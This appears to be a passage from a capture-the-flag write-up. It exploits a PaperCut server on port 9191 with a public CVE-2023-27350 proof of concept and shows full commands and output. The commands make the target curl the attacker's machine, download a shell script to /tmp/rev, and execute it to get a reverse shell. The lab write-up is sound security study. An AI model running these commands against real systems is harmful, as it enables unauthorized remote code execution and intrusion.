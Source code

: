 ```
9192/tcp filtered unknown
9193/tcp filtered unknown
9195/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.75 seconds
```

## User
We find PaperCut application on port `9191`

![](1.png)


Googling results in public exploit for [CVE-2023-27350](https://github.com/horizon3ai/CVE-2023-27350).

The PoC works

```
└─$ proxychains4 -q python CVE-2023-27350.py --url http://10.10.127.140:9191 --command "curl 10.8.4.147"
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
[*] Updating print.script.sandboxed to N
[*] Prepparing to execute...
[+] Executed successfully!
[*] Updating print-and-device.script.enabled to N
[*] Updating print.script.sandboxed to Y
```
```
└─$ python3 -m http.server 80                                                              
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.127.140 - - [15/May/2025 23:29:31] "GET / HTTP/1.1" 200 -
```

Let's achieve reverse shell
```
└─$ proxychains4 -q python CVE-2023-27350.py --url http://10.10.127.140:9191 --command "curl http://10.8.4.147/shell -o /tmp/rev"
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
[*] Updating print.script.sandboxed to N
[*] Prepparing to execute...
[+] Executed successfully!
[*] Updating print-and-device.script.enabled to N
[*] Updating print.script.sandboxed to Y

```
```
└─$ proxychains4 -q python CVE-2023-27350.py --url http://10.10.127.140:9191 --command "bash /tmp/rev"
[*] Papercut instance is vulnerable! Obtained valid JSESSIONID
[*] Updating print-and-device.script.enabled to Y
[*] Updating print.script.sandboxed to N
[*] Prepparing to execute...
[+] Executed successfully!
[*] Updating print-and-device.script.enabled to N
[*] Updating print.script.sandboxed to Y

```
